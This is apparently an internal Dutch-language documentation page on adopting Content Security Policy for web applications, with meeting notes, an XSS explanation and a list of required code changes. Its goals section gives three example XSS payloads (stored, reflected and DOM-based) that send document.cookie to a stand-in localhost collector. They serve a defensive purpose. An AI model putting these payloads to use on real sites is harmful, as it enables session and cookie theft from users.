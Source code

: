 
<Meta title="CSP/Content Security Policy"/>

# Content Security Policy

## Inleiding

Tot op heden (begin 2023) wordt er door UIG niets gespecifieerd rond [CSP](https://content-security-policy.com/).
Volgende zaken zijn al gebeurd m.b.t. CSP:

### januari 2023

In het kader van ticket [UIG-2207](https://www.milieuinfo.be/jira/browse/UIG-2207) zijn er beperkt zaken bekeken,
er is nog geen actie ondernomen (zie ook de opmerkingen in het ticket).

### maart 2023

Het volgende is gemeld op de [TAW van 02/03/2023](https://www.milieuinfo.be/confluence/display/AEO/2023-03-02%3A%3A+Verslag)
door Christophe De Blende en besproken:

> Ik heb zo het gevoel dat de urgentie van CSP onderschat wordt. Hier een paar statistieken van de verschillende
aanvallen die op de RP innet gecapteerd worden: <a href="top-threats-20221013.pdf" target="_blank">23/10/2022</a>, <a href="top-threats-20230213.pdf" target="_blank">23/02/2023</a> en <a href="top-threats-20230227.pdf" target="_blank">27/02/2023</a>.
Van belang, al wat via SSL gebeurt zien we zelf niet. Dus er zijn veel exploits die nog niet gedetecteerd worden
omwille van de huidige firewall / ssl terminatie setup.<br/>
Er is wel een tijdje een firewall loop toegevoegd geweest om log4j shell exploit te kunnen firefighten en deze
statistieken zijn ook meegenomen. Om aan te geven dat je met een factor 100 mag vermenigvuldigen wat je nu ziet
in de dagdagelijkse statistieken.

Hierbij zijn er volgende vragen / bemerkingen:
- hoe verhouden die statistieken zich tot CSP: welke zullen er verminderen / verdwijnen als CSP actief wordt ?
- het 'algemeen activeren van CSP' op de reverse-proxy (wat Lode al eens geprobeerd zou hebben - op ontwikkel?) is
  niet zinvol, veel toepassingen zullen dan niet meer werken
- CSP activatie zou applicatie per applicatie moeten doorgevoerd worden, omdat dit een grote doorlooptijd
  (maanden / jaren) zal hebben zouden statistieken per sub-domein uitgesplitst moeten worden om impact te kunnen zien


## CSP en XSS

Eén van de belangrijkste zaken waartegen je je kan beschermen met CSP is tegen Cross Side Scripting (XSS). Een uitleg
van wat XSS is vind je in het artikel [cross site scripting xss](https://auth0.com/blog/cross-site-scripting-xss), hoe
je je dan met CSP daartegen kan beschermen staat uitgelegd in
[defending against xss with csp](https://auth0.com/blog/defending-against-xss-with-csp). Voor toepassingen die een SPA
opzet volgen is er het specifiekere artikel [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).


## Doelen

Het hoofddoel om CSP te activeren is om te zorgen dat een webtoepassing enkel eigen, vertrouwde code bevat en uitvoert.
Enkel de eigen geschreven / voorziene javascript, html en css mag getoond en uitgevoerd worden. Wijzigen, tonen of
uitvoeren van 'andere' code wordt afgeblokt. Voorbeelden hiervan zijn:

### Stored XSS tegenhouden

In input velden zou malicious code ingevoerd kunnen worden conform:

```
<script>fetch(`http://localhost:4000?data=${document.cookie}`)</script>
```

Als deze code dan (denk bvb. in het geval van een blog) door een andere gebruiker geopend en uitgevoerd wordt kunnen er
ongewenst gegevens gecapteerd worden.

### Reflected XSS tegenhouden

Links (aangeboden via een href of verborgen via een shortening service) die refereren naar een toepassing kunnen
scripts bevatten:

```
http://localhost:3000/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A4000%3Fdata%3D%24%7Bdocument.cookie%7D%60%29%3C%2Fscript%3E
```

### DOM based XSS tegenhouden

In de DOM kan (door via een malicious website omgeleid te zijn) geldige, maar kwaadwillige html gestoken zijn.

```
<img src="noimage" onerror=fetch(`http://localhost:4000?data=${document.cookie}`)/>
```

### CSS XSS tegenhouden

Zie het filmpje en de presentatie op [xss no the other s](https://mikewest.org/2013/09/xss-no-the-other-s-cssconfeu-2013).


## CSP activeren

Wat er praktisch dient te gebeuren naar deploy en configuratie toe om CSP te activeren voor de complexere
toepassingen wordt beschreven in [deploying csp in spa](https://auth0.com/blog/deploying-csp-in-spa).

Alvorens dit echter kan zullen er code wijzigingen moeten gebeuren, denk hierbij aan:

- inline javascript mag niet - alle javascript moet in aparte .js bestanden gestoken worden<br/>
  -> de overgrote meerderheid van onze webcomponenten heeft geen inline javascript<br/>
  -> toepassing per toepassing moet bekeken worden om dat eventueel weg te werken
- inline styling mag niet<br/>
  -> zowel in de webcomponenten als in toepassingen zal dit voorkomen, veel meer dan inline javascript
- voor externe componenten moet geëvalueerd worden hoe we ze CSP gewijs kunnen gebruiken, 2 belangrijke zijn
  [TinyMCE](https://www.tiny.cloud/docs/tinymce/6/tinymce-and-csp/) en de
  [global header en footer](https://www.vlaanderen.be/digitaal-vlaanderen/onze-oplossingen/mijn-burgerprofiel/global-header-en-footer)
  van Digitaal Vlaanderen
